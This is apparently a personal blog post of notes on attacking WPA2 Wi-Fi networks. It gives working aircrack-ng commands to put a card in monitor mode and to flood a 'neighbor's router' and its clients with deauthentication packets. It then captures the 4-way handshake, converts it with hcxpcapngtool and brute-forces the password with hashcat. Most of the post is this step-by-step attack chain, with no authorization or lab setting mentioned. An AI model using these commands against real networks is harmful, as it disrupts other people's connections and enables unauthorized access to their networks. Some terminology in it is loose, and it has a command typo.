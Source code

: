 ```yaml
---
layout : post
title : Sniffing packets and testing those
date : 2021-06-21
---
```


Wireless Network Adapter aka wifi card that is used to connect to wifi's 

WEP : oldest
WPA : Any certificate can lead to leak 
WPA2 : kick a user, then he reconnects, capture the certificate, 4-way handshake ,capture the certificate in betweeen   
WPA3 : all password attempts need to be on internet 



## Monitor mode
In this mode it becomes a radio sniffer, listens to all wireless signals in the air on a specific channel. Hear's everything happening in the room 

Wifi card can listen to 2.4Ghz, 5Ghz, 6Ghz bands 

It can sniff to any frequency band that its capable of in the above range

So what you do is you deauth the neighbor's router by sending 'deauthentication packets' ? ( how can I send deauth packets ? )
deauth is broken, part of 802.11 management frames, are not protected in WPA/WPA2 - Personal , can be spoofed / faked by anyone in the range 


Particular client deauth attack 

```
BSSID              STATION            PWR   Rate    Lost    Frames  Probes
AA:BB:CC:DD:EE:FF  11:22:33:44:55:66  -45   1e-1     0       800     -
```

Station MAC is the client MAC 

Get all clients :
`airodump-ng --bssid <router MAC> -c <channel> wlo1mon`

Deauth bombing: 
`aireplay-ng --deauth 100 -a <router MAC> wlo1mon`

Deauth particular user : 
`aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlo1mon`

When the client connects back, we capture the 4-way handshake packets EAPOL Packets, and they are stored to the .cap files 

We dont need to decrypt this, rather we just need to match with the leaked password list and get the wifi password !! 

## Steps to get the certificate

* Change to Monitor Mode : `sudo airmon-ng start wlo1`
 
* Scan the wifi : `sudo iwlist scan`

* Top networks
```
sudo airdump-ng start wlo1mon , or , 
sudo airodump-ng wlo1mon --write scan --output-format csv
```
* Set the channel to capture : `sudo iw dev wlo1mon set channel 1`

* Get all wifi present and bssid : `sudo iw dev wlo1 scan`

* Get into monitor mode : `sudo airmon-ng start wlo1`

* Manager mode : `sudo airmon-ng stop wlo1mon`

* Airodump : `sudo airodump-ng --bssid <bssid> -c <channel-name> -w capture wlo1mon`

To check how many beacons you have passed and see if any relevant signal has been catched or not !!
* sudo airodump-ng -w '<hack2>' -c '<1>' --bssid '<A8:DA:0C:BD:0B:57>' wlo1mon

* Send deauth request at scale : `sudo aireplay-ng --deauth 0 -a <48:22:54:4C:CA:18> wlo1mon`
OR  
`sudo aireplay-ng --deauth 20 -a 6c:4f:89:9a:3f:af wlo1mon --ignore-negative-one`


![hacked](https://github.com/user-attachments/assets/8ab726b5-c6b8-43e9-b184-a7207d1f3163)

So it all comes down to having a list of all possible passwords and then hash them and see which one is the matching the user and if the password is unique enough then we run out of luck ..  

## Using GPU to Crack the password 

Once the desired 4 way certificate is captured and you will see that your terminal output also use that to see the output in wireshark (optional) and then use it to generate .hash 

Dont use hashcat-utils (its not working for my case) it's actually making the file corrupt

Convert from `.cap` (captured certificates) to the .hash using `hcxpcaptool` from AUR and use it using 

`hcxpcapngtool -o correct_wpa2.hash hack3-01.cap`    

Then use this .hash file with hashcat to get the output 

Here the 22000 is for wpa2 , the last one is the mask and a : ascii , d: number-digits  
`hashcat -m 22000 -a 3 correct_wpa2.hash '?a?a?a?a?a?a?a?a?a'`



